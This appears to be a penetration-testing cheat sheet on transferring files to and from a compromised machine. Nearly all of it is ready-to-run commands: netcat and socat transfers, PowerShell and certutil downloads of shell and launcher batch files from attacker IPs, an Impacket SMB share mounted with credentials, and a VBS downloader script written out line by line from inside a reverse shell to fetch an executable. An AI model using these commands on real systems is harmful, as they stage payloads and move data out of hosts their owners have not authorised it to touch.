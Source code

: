 -   nc -w 0 -lnvp 1234 < test (remote)
    nc 10.10.241.248 1234 > test (local)

Socat:
    - socat -u FILE:"${HOME}/.vimrc" TCP-LISTEN:5778,reuseaddr (remote)
    - socat -u TCP:192.168.1.97:5778 STDOUT > /path/to/downloaded/file (local)

Powershell/cmd:

-   powershell -c "Invoke-WebRequest 'http://10.9.0.54:8000/launcher.bat' -OutFile 'C:\windows\temp\launcher.bat'"
-   certutil -urlcache -split -f http://10.10.14.7/shell.bat C:\\users\\public\\shell.bat

Impacket SMB:

-   sudo impacket-smbserver shared $(pwd) -smb2support -user user -password password
-   PS:
       $pass= convertto-securestring 'password' -AsPlainText -Force
       $cred= New-Object System.Management.Automation.PSCredential('user', $pass)
       New-PSDrive -Name user -PSProvider FileSystem -Credential $cred -Root \\10.10.14.4\shared
       cd user:


-   impacket-smbserver "foldername" `pwd` (local)
    sudo impacket-smbserver share /temp/ -smb2support
-   net use z: \\10.10.14.5\foldername (remote)

VBS:

-   In reverse shell
        echo strUrl = WScript.Arguments.Item(0) > wget.vbs
        echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
        echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
        echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
        echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
        echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
        echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
        echo Err.Clear >> wget.vbs
        echo Set http = Nothing >> wget.vbs
        echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
        echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
        echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
        echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
        echo http.Open "GET",strURL,False >> wget.vbs
        echo http.Send >> wget.vbs
        echo varByteArray = http.ResponseBody >> wget.vbs
        echo Set http = Nothing >> wget.vbs
        echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
        echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
        echo strData = "" >> wget.vbs
        echo strBuffer = "" >> wget.vbs
        echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
        echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
        echo Next >> wget.vbs
        echo ts.Close >> wget.vbs
-   Execute
        cscript wget.vbs http://10.10.10.10/file.exe file.exe
